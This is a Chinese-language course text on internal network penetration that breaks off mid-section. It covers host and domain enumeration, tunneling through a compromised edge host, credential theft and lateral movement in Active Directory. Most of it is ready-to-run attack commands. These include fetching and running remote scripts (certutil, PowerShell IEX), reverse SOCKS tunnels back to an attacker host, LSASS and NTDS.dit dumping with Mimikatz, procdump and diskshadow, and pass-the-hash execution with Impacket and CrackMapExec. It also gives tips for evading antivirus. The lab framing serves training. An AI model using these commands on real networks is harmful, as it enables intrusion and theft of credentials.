

# 内网渗透详解 —— 隧道代理 / 凭据抓取 / 横向移动 / 域渗透
## 目录
+ [第 1 课 内网渗透基础 + 信息收集](#第-1-课-内网渗透基础--信息收集)
    - [1.1 内网渗透的概念](#11-内网渗透的概念)
    - [1.2 工作组 vs 域](#12-工作组-vs-域)
    - [1.3 内网渗透方法论](#13-内网渗透方法论)
    - [1.4 权限判断](#14-权限判断)
    - [1.5 内网信息收集](#15-内网信息收集)
    - [1.6 内网工具箱](#16-内网工具箱)
+ [第 2 课 隧道与代理](#第-2-课-隧道与代理)
    - [2.1 为什么需要隧道](#21-为什么需要隧道)
    - [2.2 正向 vs 反向代理](#22-正向-vs-反向代理)
    - [2.3 端口转发工具](#23-端口转发工具)
    - [2.4 SOCKS 代理工具](#24-socks-代理工具)
    - [2.5 Web 隧道](#25-web-隧道)
    - [2.6 ICMP / DNS 隧道](#26-icmp--dns-隧道)
+ [第 3 课 凭据抓取 + 横向移动](#第-3-课-凭据抓取--横向移动)
    - [3.1 Windows 凭据存储](#31-windows-凭据存储)
    - [3.2 Mimikatz 抓密码](#32-mimikatz-抓密码)
    - [3.3 LSASS Dump](#33-lsass-dump)
    - [3.4 Pass the Hash](#34-pass-the-hash)
    - [3.5 横向移动工具](#35-横向移动工具)
    - [3.6 BloodHound 路径分析](#36-bloodhound-路径分析)
+ [第 4 课 域渗透 + 综合靶场 + 防御](#第-4-课-域渗透--综合靶场--防御)
    - [4.1 Active Directory 基础](#41-active-directory-基础)
    - [4.2 Kerberos 协议](#42-kerberos-协议)
    - [4.3 AS-REP Roasting](#43-as-rep-roasting)
    - [4.4 Kerberoasting](#44-kerberoasting)
    - [4.5 黄金票据 / 白银票据](#45-黄金票据--白银票据)
    - [4.6 综合靶场搭建](#46-综合靶场搭建)
    - [4.7 防御方案](#47-防御方案)
+ [附录 A 必背 30 条](#附录-a-必背-30-条)
+ [附录 B 课后作业](#附录-b-课后作业)
+ [附录 C 法律与授权提醒](#附录-c-法律与授权提醒)

---

## 整体学习路径


---

# 第 1 课 内网渗透基础 + 信息收集
> 时长 60 分钟。建立"内网"概念，掌握方法论与基础枚举。
>

## 1.1 内网渗透的概念
### 1.1.1 什么是内网
**内网（Intranet / LAN）**：组织内部的局域网，通常：

+ 不直接对公网暴露
+ 通过防火墙 / NAT 与公网隔离
+ 内部主机互访（信任度高）
+ 用私有 IP 段（10.x / 172.16-31.x / 192.168.x）

```plain
公网 (Internet)
    │
    │  NAT / 防火墙
    │
内网入口（路由器 / 跳板）
    │
    ├── 办公区（员工 PC）
    ├── 服务器区（OA / DB / 文件）
    ├── 管理区（域控 / 运维机）
    └── DMZ（对外服务）
```

### 1.1.2 内网渗透的定义
**内网渗透（Internal / Post-Exploitation）**：从已经获得的"边界突破点"（如外网 Webshell、钓鱼获得的内网 PC shell）出发，**进入内部网络**，逐步获取更多权限、扩散到关键资产（域控、数据库、核心业务机）的过程。

### 1.1.3 内网渗透 vs 外网渗透
| 维度 | 外网渗透 | 内网渗透 |
| --- | --- | --- |
| 起点 | 公网 | 已拿下的某台内网机 |
| 目标 | 打进内网 | 占领核心资产 |
| 工具 | Burp / SQLMap / 漏洞利用 | Mimikatz / BloodHound / Impacket |
| 重点 | 漏洞 | 凭据 / 横向 / 域 |
| 隐蔽性 | 低（公网有 WAF/IDS） | 高（内网通常无监控） |


## 1.2 工作组 vs 域
### 1.2.1 工作组（Workgroup）
**工作组**：一组对等计算机的松散组合，每台机器独立管理账户。

```plain
┌──────────────┐  ┌──────────────┐  ┌──────────────┐
│ PC1          │  │ PC2          │  │ PC3          │
│ Admin: aaa   │  │ Admin: bbb   │  │ Admin: ccc   │
│ Users: ...   │  │ Users: ...   │  │ Users: ...   │
└──────────────┘  └──────────────┘  └──────────────┘
   互相独立账户
```

特点：

+ 每台机器有独立 SAM 数据库
+ 访问别机需重新认证
+ 适合小规模环境（< 20 台）
+ 渗透难度：**逐台拿下**

### 1.2.2 域（Domain）
**域（Active Directory Domain）**：集中式网络管理模式，由域控统一管理账户和策略。

```plain
                ┌─────────────────┐
                │ 域控 DC          │
                │ (AD + NTDS.dit) │
                │ 所有用户/密码    │
                └────────┬────────┘
                         │ Kerberos
        ┌────────────────┼────────────────┐
        │                │                │
   ┌────┴────┐      ┌────┴────┐      ┌────┴────┐
   │ PC1     │      │ PC2     │      │ 服务器  │
   │ 域成员  │      │ 域成员  │      │ 域成员  │
   └─────────┘      └─────────┘      └─────────┘
```

特点：

+ 一套账户通吃所有域成员
+ 域控存所有用户密码 hash（NTDS.dit）
+ 适合大规模企业（政府、银行、央企）
+ 渗透难度：**拿下域控 = 拿下全网**

### 1.2.3 内网常见资产
| 角色 | 资产 |
| --- | --- |
| 域控 (DC) | Windows Server + AD + DNS |
| 文件服务器 | SMB 共享 |
| 邮件服务器 | Exchange |
| 数据库 | SQL Server / Oracle |
| OA | Exchange / Notes / 致远 / 泛微 |
| 运维 | 堡垒机 / 跳板机 / VMware vCenter |
| 监控 | Zabbix / Nagios |
| 安全 | 杀毒控制台 / EDR 控制台 |


### 1.2.4 重要概念
```plain
DC（Domain Controller）：域控制器
AD（Active Directory）：活动目录，存储域对象（用户/计算机/组）
NTDS.dit：AD 数据库文件，存所有域用户 hash
SAM：本地账户数据库（独立于域）
SYSVOL：域共享目录，存组策略脚本
Kerberos：域默认认证协议
NTLM：旧认证协议（仍存在，是攻击面）
```

## 1.3 内网渗透方法论
### 1.3.1 Cyber Kill Chain（洛克希德-马丁）
```plain
┌──────────────────────────────────────────────────┐
│ 1. Reconnaissance    侦察                        │
│ 2. Weaponization     武器化                      │
│ 3. Delivery          投递                        │
│ 4. Exploitation      利用                        │
│ 5. Installation      安装后门                    │
│ 6. Command & Control 命令控制 ◄── 内网渗透从这里  │
│ 7. Actions on Objectives  完成目标                │
└──────────────────────────────────────────────────┘
```

### 1.3.2 内网渗透标准流程
```plain
┌──────────────────────────────────────────────────┐
│ 阶段 1：立足（Foothold）                          │
│   外网 Webshell / 钓鱼 / 物理接触                 │
│                                                  │
│ 阶段 2：信息收集（Enumeration）                   │
│   当前权限 / 网络拓扑 / 域信息 / 用户             │
│                                                  │
│ 阶段 3：权限提升（Privesc）                       │
│   Linux 提权（已学） / Windows 提权               │
│                                                  │
│ 阶段 4：凭据获取（Credential Access）             │
│   抓内存密码 / 抓 SAM / 抓 NTDS.dit               │
│                                                  │
│ 阶段 5：横向移动（Lateral Movement）              │
│   用拿到的凭据访问其他机器                        │
│                                                  │
│ 阶段 6：域渗透（Domain Compromise）               │
│   BloodHound 分析 / Kerberos 攻击 / 拿域控        │
│                                                  │
│ 阶段 7：维持与清理（Persistence & Cleanup）       │
│   黄金票据 / 隐藏账户 / 清日志                    │
└──────────────────────────────────────────────────┘
```

## 1.4 权限判断
### 1.4.1 Windows 权限层级
```plain
┌────────────────────────────────────────┐
│ SYSTEM（LocalSystem）                  │  ← 最高，等价于 root
│ Administrator（管理员）                 │  ← 高
│ IUSR / NETWORK SERVICE                 │  ← 服务账户
│ IIS / www-data 等效                    │  ← Web 入口通常这个
│ Guest                                  │  ← 最低
└────────────────────────────────────────┘
```

### 1.4.2 判断当前权限
```plain
whoami
whoami /all          # 用户、组、SID、特权
whoami /priv         # 特权列表

# 关键特权
SeDebugPrivilege              # 可调试任意进程（提权神器）
SeImpersonatePrivilege        # 可模拟客户端（JuicyPotato）
SeAssignPrimaryTokenPrivilege
SeTcbPrivilege
SeLoadDriverPrivilege
```

### 1.4.3 是否在域内
```plain
# 查看域名
net config workstation | findstr "Domain"

# 查看域控
nltest /dsgetdc:corp

# 查看域用户
net user /domain

# 查看域管
net group "Domain Admins" /domain

# 查看所有域主机
net group "Domain Computers" /domain
```

### 1.4.4 判断操作系统
```plain
ver
systeminfo | findstr /B /C:"OS"

# 关键补丁
wmic qfe list brief
systeminfo | findstr KB
```

## 1.5 内网信息收集
### 1.5.1 本机信息
```plain
:: 系统信息
systeminfo
hostname
ipconfig /all
route print
arp -a
netstat -ano

:: 用户
whoami /all
net user
net localgroup administrators

:: 服务与进程
tasklist /svc
net start
wmic service list brief
```

### 1.5.2 网络发现
#### 存活主机
```bash
# Linux 攻击机
nmap -sn 10.10.0.0/24
fping -g 10.10.0.0/24 2>/dev/null | grep "is alive"

# Windows 内网
for /L %i in (1,1,254) do @ping -n 1 -w 100 10.10.0.%i > nul && echo 10.10.0.%i is alive
```

#### 内网 ARP 表
```plain
arp -a
```

#### 内网 DNS
```plain
:: DNS 反查（域环境）
nslookup pc1.corp.local
:: 正查
nslookup 10.10.0.5
```

### 1.5.3 端口扫描
```bash
# 内网快速扫
nmap -sS -p 22,80,135,139,443,445,1433,3306,3389,5985,8080 --open 10.10.0.0/24

# 关键端口
135  MSRPC（WMI / DCOM）
139  NetBIOS
389  LDAP（域）
445  SMB（文件共享 / psexec）
1433 SQL Server
3306 MySQL
3389 RDP（远程桌面）
5985 WinRM（HTTP）
5986 WinRM（HTTPS）
```

### 1.5.4 域内信息（域环境）
```plain
:: LDAP 查询（最准确）
ldapsearch -x -H ldap://dc.corp.local -b "DC=corp,DC=local"

:: impacket 工具
GetADUsers.py -all -dc-ip 10.10.0.1 corp/user1:pass
GetUserSPNs.py corp/user1:pass   # SPN 用户（Kerberoasting）
FindDelegation.py corp/user1:pass  # 委派

:: PowerView（PowerShell）
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetComputer
Get-NetGroupMember -GroupName "Domain Admins"
```

### 1.5.5 ADExplorer / BloodHound 图形化
```bash
# BloodHound 数据采集
sharpHound.exe -c All
# 生成 BloodHound.zip，导入 BloodHound GUI 分析攻击路径
```

## 1.6 内网工具箱
### 1.6.1 渗透机 / 攻击机
| 工具 | 用途 |
| --- | --- |
| Kali Linux | 自带 |
| Cobalt Strike / Sliver / Havoc | 商业/开源 C2 |
| Impacket | Python 库 + 一堆工具 |
| Mimikatz | 抓 Windows 凭据 |
| CrackMapExec (NetExec) | 内网批量利用 |
| Evil-WinRM | WinRM 远程 shell |
| BloodHound + SharpHound | 域路径分析 |
| Responder | LLMNR/NBT-NS 投毒 |
| Mitm6 | IPv6 中间人 |


### 1.6.2 内网常用的"内置工具"
```plain
:: Windows 自带
cmd
powershell
wmic
net
nltest
dsquery
nslookup
```

### 1.6.3 文件传输
```plain
:: 从攻击机下载（HTTP 服务器）
certutil -urlcache -split -f http://10.0.0.1/tool.exe C:\Windows\Temp\tool.exe

:: PowerShell
IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.1/script.ps1')

:: SMB
copy \\10.0.0.1\share\tool.exe C:\Temp\

:: Bitsadmin
bitsadmin /transfer job http://10.0.0.1/tool.exe C:\Temp\tool.exe
```

---

## 第 1 课小结
| 模块 | 关键点 |
| --- | --- |
| 工作组 vs 域 | 域 = 集中管理，DC 是核心 |
| 权限判断 | whoami /priv 看特权 |
| 域判断 | net user /domain |
| 网络扫描 | nmap / fping / arp -a |
| 域枚举 | PowerView / BloodHound |
| 工具箱 | Impacket / CME / Mimikatz |


## 课间实操 1（15 分钟）
1. 启动一台 Windows 10 虚拟机（或加入测试域）。
2. 执行 `whoami /all` / `net user /domain` / `ipconfig /all` / `systeminfo`。
3. 用 `for /L %i in (1,1,254) do ping` 扫同网段存活主机。
4. 安装 SharpHound，运行 `Invoke-BloodHound -CollectionMethod All`，把 zip 拖回攻击机导入 BloodHound 分析。

---

# 第 2 课 隧道与代理
> 时长 60 分钟。隧道是内网渗透的"血管"，把流量从受限网络导出来。
>

## 2.1 为什么需要隧道
### 2.1.1 场景
```plain
攻击者                  受害者内网
公网 IP 1.2.3.4          ┌──────────────────────────────┐
                         │ 拿下的边界机                 │
nc 监听 ◄────────────── │ (Webshell)                   │
                         │   │                          │
                         │   └─► 内网 10.10.0.0/24       │
                         │       域控 10.10.0.1           │
                         │       OA   10.10.0.5           │
                         └──────────────────────────────┘
```

问题：

+ 攻击者无法直接访问 10.10.0.0/24
+ 边界机只能正向出网（或反向回连）
+ 需要"借道"边界机访问内网

### 2.1.2 隧道的本质
**隧道（Tunnel）**：把一种协议（如 SOCKS）封装到另一种协议（如 HTTP/ICMP/DNS）里传输，**绕过网络限制**。

## 2.2 正向 vs 反向代理
### 2.2.1 正向代理（Forward Proxy）
```plain
攻击者 ──► 边界机 ──► 内网
       （边界机开放端口）
```

+ 边界机开放端口供攻击者连接
+ 适合：边界机有公网 IP 或攻击者能直连

### 2.2.2 反向代理（Reverse Proxy）
```plain
攻击者 ◄── 边界机 ──► 内网
       （攻击机开放端口）
```

+ 边界机主动连回攻击者
+ 适合：边界机在 NAT 后无法直连

### 2.2.3 选择原则
```plain
┌──────────────────────────────────────────────┐
│ 1. 边界机能 ping 攻击机 → 用正向             │
│ 2. 边界机能被攻击机 ping 但只能反向出网 → 用反向 │
│ 3. 边界机只能 DNS / ICMP 出网 → 用特殊协议隧道│
└──────────────────────────────────────────────┘
```

## 2.3 端口转发工具
### 2.3.1 Windows netsh（自带）
```plain
:: 查看规则
netsh interface portproxy show all

:: 添加转发：把本机 4444 转到 10.10.0.5:445
netsh interface portproxy add v4tov4 listenport=4444 connectaddress=10.10.0.5 connectport=445

:: 删除
netsh interface portproxy delete v4tov4 listenport=4444
```

### 2.3.2 Linux SSH（自带）
```bash
# 本地转发（攻击者访问本地 8080 = 访问内网 10.10.0.5:80）
ssh -L 8080:10.10.0.5:80 user@boundary.com

# 远程转发（边界机回连攻击者，把攻击机 8080 暴露成边界机）
ssh -R 8080:10.10.0.5:80 attacker@1.2.3.4

# 动态转发（SOCKS5）
ssh -D 1080 user@boundary.com
# 浏览器配 SOCKS5 127.0.0.1:1080 即可访问内网
```

### 2.3.3 lcx（老牌）
```bash
# 反向（边界机执行，把内网端口反向到攻击机）
lcx.exe -slave attacker_ip 4444 10.10.0.5 3389
# 攻击机执行
lcx.exe -listen 4444 5555
# 然后攻击机 mstsc 127.0.0.1:5555 就连到内网 3389

# 正向（边界机直接转发）
lcx.exe -tran 4444 10.10.0.5 3389
# 攻击机连 boundary:4444 = 内网 3389
```

### 2.3.4 ew（EarthWorm，已停更但仍可用）
```bash
# 反向 SOCKS5
ew_for_Win.exe -s rcsocks -l 1080 -e 8888
# 边界机执行
ew_for_Win.exe -s rssocks -d attacker_ip -e 8888
```

## 2.4 SOCKS 代理工具
### 2.4.1 FRP（推荐）
`frps`（服务端，攻击机）+ `frpc`（客户端，边界机）：

**frps.toml（攻击机）**：

```toml
bindPort = 7000
auth.token = "secret"
```

**frpc.toml（边界机）**：

```toml
serverAddr = "1.2.3.4"
serverPort = 7000
auth.token = "secret"

[[proxies]]
name = "socks5"
type = "tcp"
remotePort = 1080
[proxies.plugin]
type = "socks5"
```

启动：

```bash
# 攻击机
./frps -c frps.toml

# 边界机
./frpc -c frpc.toml
```

攻击者用 1.2.3.4:1080 作 SOCKS5 代理。

### 2.4.2 NPS（一站式）
NPS 提供 Web 管理界面，更易用：

```bash
# 服务端
./nps install
./nps start
# 访问 http://1.2.3.4:8080  (admin/123)

# 客户端（边界机）
./npc -server=1.2.3.4:8024 -vkey=xxx
```

### 2.4.3 Chisel（推荐，单文件跨平台）
```bash
# 攻击机（服务端）
chisel server -p 8000 --reverse

# 边界机（客户端，反向 SOCKS）
chisel client 1.2.3.4:8000 R:1080:socks

# 然后攻击机 127.0.0.1:1080 是 SOCKS5 代理
```

### 2.4.4 gost（全能）
```bash
# 边界机
gost -L=rtcp://:4444/10.10.0.5:3389
gost -L=socks5://:1080
```

### 2.4.5 proxychains 配合使用
`/etc/proxychains.conf`：

```plain
[ProxyList]
socks5  127.0.0.1 1080
```

```bash
# 所有命令走代理
proxychains nmap -sT 10.10.0.5
proxychains curl http://10.10.0.5/
proxychains python3 wmiexec.py user:pass@10.10.0.5
```

## 2.5 Web 隧道
### 2.5.1 适用场景
边界机只能出 80/443，且只能跑 HTTP 流量（深度包检测）。这时把代理流量伪装成 HTTP。

### 2.5.2 reGeorg /Neo-reGeorg
把 `tunnel.jsp / tunnel.php / tunnel.aspx` 上传到目标 Web 服务器：

```bash
# 上传 tunnel.jsp 到 Web 根目录
# 攻击机执行
python neoreg.py -k password -u http://target/tunnel.jsp
# 然后用 127.0.0.1:1080 作 SOCKS 代理
```

### 2.5.3 suo5（推荐，更高效）
[https://github.com/zema1/suo5](https://github.com/zema1/suo5)

```bash
# 上传 suo5.jsp / suo5.aspx / suo5.php 到目标
# 攻击机执行
./suo5 -t http://target/suo5.jsp
# 全双工 HTTP 隧道，性能接近原生
```

### 2.5.4 IceScrum / tunna / reducto
类似工具，按环境选。

## 2.6 ICMP / DNS 隧道
### 2.6.1 ICMP 隧道
适合只允许 ping 出网的环境：

```bash
# 攻击机
icmpsh_m.py

# 边界机
icmpsh.exe -t attacker_ip -d 500 -b 30 -s 128
```

或用 `ptunnel` 把 TCP 封装到 ICMP：

```bash
# 服务端
ptunnel
# 客户端
ptunnel -p attacker_ip -lp 1080 -da internal_target -dp 3389
```

### 2.6.2 DNS 隧道（dnscat2）
适合只允许 DNS 出网的环境：

```bash
# 攻击机（DNS 服务器）
ruby dnscat2.rb test.com

# 边界机
dnscat2.exe test.com attacker_dns_ip

# 拿到 shell 后可以传输文件、端口转发
dnscat> session -i 1
session> listen 127.0.0.1:8888 internal_target:3389
```

### 2.6.3 iodine（DNS 隧道 + IP 层）
```bash
# 服务端
iodined -f -c -P password 10.0.0.1 test.com

# 客户端
iodine -f -P password test.com

# 拿到一个 TUN 网卡，可以 ping 通服务端的内网 IP
```

### 2.6.4 ICMP/DNS 隧道特征
```plain
优点：穿透防火墙
缺点：速度极慢（10-50 KB/s）
适合：传命令 / 小文件，不适合大规模数据传输
```

---

## 第 2 课小结
| 场景 | 工具 |
| --- | --- |
| 正向出网 | netsh / SSH -L |
| 反向出网 | lcx / ew / frp / chisel |
| Web 出网 | reGeorg / suo5 |
| ICMP only | ptunnel / icmpsh |
| DNS only | dnscat2 / iodine |
| 配套 | proxychains |


## 课间实操 2（20 分钟）
1. 准备两台虚拟机：攻击机 Kali + 受害机 Windows。
2. 用 **Chisel** 建立反向 SOCKS5：

```bash
# Kali（攻击机）
chisel server -p 8000 --reverse
# Windows（受害机，模拟 Webshell 反弹后执行）
chisel.exe client ATTACKER_IP:8000 R:1080:socks
```

3. 攻击机配 `proxychains`：

```bash
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
proxychains nmap -sT -p 445 10.10.0.0/24
```

4. 验证代理能访问内网。
5. 改用 **suo5**（部署 suo5.aspx 到 IIS），观察性能差异。

---

# 第 3 课 凭据抓取 + 横向移动
> 时长 60 分钟。凭据是内网渗透的"通行证"。
>

## 3.1 Windows 凭据存储
### 3.1.1 三种存储位置
```plain
┌────────────────────────────────────────────────────┐
│ 1. LSASS 内存（lsass.exe 进程）                     │
│    - 当前登录用户的 NTLM hash                       │
│    - Kerberos 票据                                 │
│    - 明文密码（如果开启了 WDigest）                 │
│                                                    │
│ 2. SAM 数据库（C:\Windows\System32\config\SAM）     │
│    - 本地用户的密码 hash                            │
│                                                    │
│ 3. NTDS.dit（仅域控，C:\Windows\NTDS\ntds.dit）     │
│    - 所有域用户的密码 hash                          │
│    - 这是"皇冠上的明珠"                             │
└────────────────────────────────────────────────────┘
```

### 3.1.2 NTLM hash vs LM hash
```plain
LM hash   ← 老算法，分两半加密，弱（已淘汰）
NT hash   ← MD4(UTF-16LE(password))，当前主流
NTLMv1/v2 ← 挑战响应协议（用于网络认证，不同于 NT hash）
```

Pass the Hash（PTH）用的是 **NT hash**。

### 3.1.3 凭据保护区（LSA Protected Mode）
Windows 10+ 引入 LSA Protected（RunAsPPL），阻止非签名进程读取 lsass：

```plain
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
# 1 = 启用保护（Mimikatz 直接读不到）
```

绕过：使用 COM Hijack、`PPLdump`、`PPLBlade` 等。

## 3.2 Mimikatz 抓密码
### 3.2.1 Mimikatz 简介
**Mimikatz**：法国安全研究员 gentilkiwi 写的 Windows 凭据提取工具，**事实标准**。

```plain
# 1. 提权到 debug
mimikatz # privilege::debug

# 2. 抓密码
mimikatz # sekurlsa::logonpasswords
```

输出：

```plain
Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : Service from 0
User Name         : WEB$
Domain            : CORP
Logon Server      : DC01
Logon Time        : 7/24/2026 10:00:00 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a4f49c...      ← NTLM hash
         * SHA1     : 6e6c...
        tspkg :
         * Username : Administrator
         * Domain   : CORP
         * Password : P@ssw0rd       ← 明文（仅 WDigest 开启时）
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : P@ssw0rd       ← 明文（仅 WDigest 开启时）
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : P@ssw0rd
```

### 3.2.2 关键命令
```plain
# 抓所有
sekurlsa::logonpasswords

# 抓 Kerberos 票据
sekurlsa::tickets

# 抓 NTDS.dit（域控上）
lsadump::dcsync /domain:corp.local /user:Administrator

# 抓 SAM
lsadump::sam

# 抓缓存
sekurlsa::cache
```

### 3.2.3 mimikatz 免杀技巧
```plain
┌──────────────────────────────────────────────┐
│ 1. 改名 + 字符串混淆                         │
│ 2. 内存加载（C# 版本 Mimikatz）              │
│ 3. 用 SafetyKatz / SharpKatz                 │
│ 4. 只导出 dmp 离线分析（procdump）            │
└──────────────────────────────────────────────┘
```

## 3.3 LSASS Dump
### 3.3.1 用 procdump（Microsoft 签名）
```plain
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# 然后离线
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"
```

### 3.3.2 comsvcs.dll（系统自带）
```plain
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass_pid> C:\Temp\lsass.dmp full
```

### 3.3.3 任务管理器
任务管理器 → 找到 lsass.exe → 右键 → 创建转储文件。

### 3.3.4 NTDS.dit 抓取（域控）
```plain
# 用 ntdsutil（系统自带）
ntdsutil "ac i ntds" "ifm" "create full C:\dump" q q

# 或用 diskshadow
diskshadow.exe
diskshadow> set context persistent nowriters
diskshadow> add volume c: alias mydrive
diskshadow> create
diskshadow> expose %mydrive% z:
diskshadow> exit
copy z:\Windows\NTDS\ntds.dit C:\Temp\
copy c:\Windows\System32\config\SYSTEM C:\Temp\
```

然后用 secretsdump 解析：

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

## 3.4 Pass the Hash
### 3.4.1 PTH 原理
**Pass the Hash（哈希传递）**：用 NTLM hash 直接进行 SMB/HTTP 认证，**无需破解明文密码**。

```plain
正常认证：
   客户端 → password → hash → 发给服务端
   
PTH：
   客户端 → 直接用现成的 hash → 发给服务端
```

为什么可行：NTLM 协议中 hash 本身就是"凭证"，服务端只比对 hash 不验证明文。

### 3.4.2 PTH 利用
```bash
# impacket
impacket-wmiexec -hashes :a4f49c... Administrator@10.10.0.5
impacket-psexec -hashes :a4f49c... Administrator@10.10.0.5
impacket-smbexec -hashes :a4f49c... Administrator@10.10.0.5
impacket-atexec -hashes :a4f49c... Administrator@10.10.0.5 "whoami"

# CrackMapExec
crackmapexec smb 10.10.0.0/24 -u Administrator -H a4f49c...
crackmapexec smb 10.10.0.0/24 -u Administrator -H a4f49c... -x "whoami"

# evil-winrm
evil-winrm -i 10.10.0.5 -u Administrator -H a4f49c...
```

### 3.4.3 PTH 限制
```plain
┌────────────────────────────────────────────┐
│ - 需要 SMB / WinRM / WMI 端口可达          │
│ - 需要 LocalAccountTokenFilterPolicy=0     │
│   （域账户默认满足，本地账户需 UAC 限制）   │
│ - 部分 EDR 会拦截                          │
└────────────────────────────────────────────┘
```

## 3.5 横向移动工具
### 3.5.1 PsExec（Sysinternals 出品，但被 EDR 监控）
```plain
psexec \\10.10.0.5 -u Administrator -p Password cmd.exe
```

原理：通过 SMB 创建服务并启动，留下痕迹。

### 3.5.2 impacket-psexec
```bash
impacket-psexec corp/Administrator:Password@10.10.0.5
impacket-psexec -hashes :a4f49c... corp/Administrator@10.10.0.5
```

### 3.5.3 wmiexec（推荐，隐蔽）
```bash
# 通过 WMI 协议（135 + 动态端口）
impacket-wmiexec corp/Administrator:Password@10.10.0.5
```

WMI 比较隐蔽，不留服务痕迹。

### 3.5.4 smbexec
```bash
impacket-smbexec corp/Administrator:Password@10.10.0.5
```

### 3.5.5 atexec（计划任务）
```bash
impacket-atexec corp/Administrator:Password@10.10.0.5 "cmd /c whoami > C:\Temp\out.txt"
```

### 3.5.6 dcom-exec
通过 DCOM 协议横向：

```bash
dcomexec.py corp/Administrator:Password@10.10.0.5
```

### 3.5.7 CrackMapExec（批量）
```bash
# 批量 dump hash
crackmapexec smb 10.10.0.0/24 -u Administrator -p Password --sam

# 批量命令执行
crackmapexec smb 10.10.0.0/24 -u Administrator -p Password -x "whoami"

# 列域管
crackmapexec smb 10.10.0.0/24 -u Administrator -p Password -M enum_dom_users
```

### 3.5.8 NetExec（CME 的现代分支）
```bash
nxc smb 10.10.0.0/24 -u Administrator -p Password
nxc smb 10.10.0.0/24 -u Administrator -p Password -M mimikatz
```

## 3.6 BloodHound 路径分析
### 3.6.1 BloodHound 简介
**BloodHound**：用图数据库（Neo4j）分析 AD 中"谁能打谁"的关系，找出最短攻击路径。

```plain
节点：用户 / 计算机 / 组 / GPO / OU / 域
边：MemberOf / AdminTo / HasSession / GenericAll / WriteDacl / ...
```

### 3.6.2 数据采集
```powershell
# SharpHound（C# 版，免杀）
SharpHound.exe -c All --zipfilename blood.zip

# PowerShell 版
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

也可以用 Python 版（远程 LDAP）：

```bash
bloodhound-python -d corp.local -u user1 -p pass -gc dc01 -c All
```

### 3.6.3 导入与分析
1. 启动 Neo4j + BloodHound。
2. 拖入 zip 文件。
3. 内置查询：
    - Find All Domain Admins
    - Find Shortest Path to Domain Admins
    - Find Principals with DCSync Rights
    - Find Kerberoastable Users

### 3.6.4 攻击路径示例
```plain
普通用户 user1
   │
   │ (HasAdmin → PC01)
   ▼
PC01（user1 是 PC01 的本地管理员）
   │
   │ (HasSession → Administrator)
   ▼
Administrator（在 PC01 上登录过）
   │
   │ (MemberOf → Domain Admins)
   ▼
Domain Admin（拿域控）
```

BloodHound 一图直接告诉你"先打 PC01 → 抓 Administrator 凭据 → 拿域"。

---

## 第 3 课小结
| 模块 | 工具 |
| --- | --- |
| 抓密码 | Mimikatz / procdump |
| 抓 hash | secretsdump / NTDS.dit |
| PTH | impacket-wmiexec / CME |
| 横向 | psexec / wmiexec / atexec |
| 批量 | CrackMapExec / NetExec |
| 路径分析 | BloodHound + SharpHound |


## 课间实操 3（20 分钟）
1. 启动一台 Windows Server 2019 + 加入测试域。
2. 用管理员登录后运行 Mimikatz：

```plain
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

3. 用 procdump 抓 lsass.dmp，离线解析。
4. 用拿到的 hash 在另一台机器做 PTH：

```bash
impacket-wmiexec -hashes :xxx Administrator@10.10.0.5
```

5. 安装 BloodHound，用 SharpHound 采集本机数据并导入。

---

# 第 4 课 域渗透 + 综合靶场 + 防御
> 时长 60 分钟。域渗透是内网渗透的"终极目标"。
>

## 4.1 Active Directory 基础
### 4.1.1 AD 数据库
**NTDS.dit**：AD 数据库文件，存储：

+ 用户对象（含 hash）
+ 计算机账户
+ 组
+ GPO（组策略）
+ 委派关系
+ 信任关系

### 4.1.2 关键容器
```plain
DC=corp,DC=local            （域根）
├── CN=Users                （内置用户）
├── CN=Computers            （内置计算机）
├── OU=Sales                （组织单位 OU）
├── CN=Builtin              （内置组）
├── DC=DomainDnsZones
└── ...
```

### 4.1.3 LDAP 协议
AD 通过 LDAP（端口 389/636）查询：

```bash
ldapsearch -x -H ldap://dc.corp.local \
  -D "user1@corp.local" -w password \
  -b "DC=corp,DC=local" "(objectClass=user)"
```

### 4.1.4 委派（Delegation）
```plain
非约束委派 Unconstrained Delegation：服务可代表任何用户
约束委派 Constrained Delegation：服务可代表某些用户访问某些服务
基于资源的约束委派 RBCD：服务可被目标资源设置代表
```

委派是高级攻击面（超出本课范围，参考 Rubeus / kekeo）。

## 4.2 Kerberos 协议
### 4.2.1 Kerberos 三方
```plain
客户端 (Client)
KDC (Key Distribution Center)  = 域控
   ├── AS (Authentication Service)
   └── TGS (Ticket Granting Service)
服务 (Service)
```

### 4.2.2 认证流程（六步）


### 4.2.3 关键票据
```plain
TGT (Ticket Granting Ticket)：
